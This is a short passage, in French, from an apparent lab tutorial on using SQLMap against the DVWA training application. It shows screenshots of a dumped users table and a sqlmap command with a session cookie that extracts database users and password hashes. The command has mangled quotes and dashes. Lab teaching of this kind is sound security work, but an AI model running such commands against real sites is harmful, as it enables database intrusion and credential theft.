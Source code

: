 SQLMap automatise l'extraction des mots de passe. Voici les réponses aux questions pour ce faire :  

![20-sqlmap-reponses-passwords](../images/2020/07/20-sqlmap-reponses-passwords.png)

Résultat :  

![20-sqlmap-users-table](../images/2020/07/20-sqlmap-users-table.png)

Pour extraire les utilisateurs de la DBMS :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \  
  --string=”Surname” –users –password
```
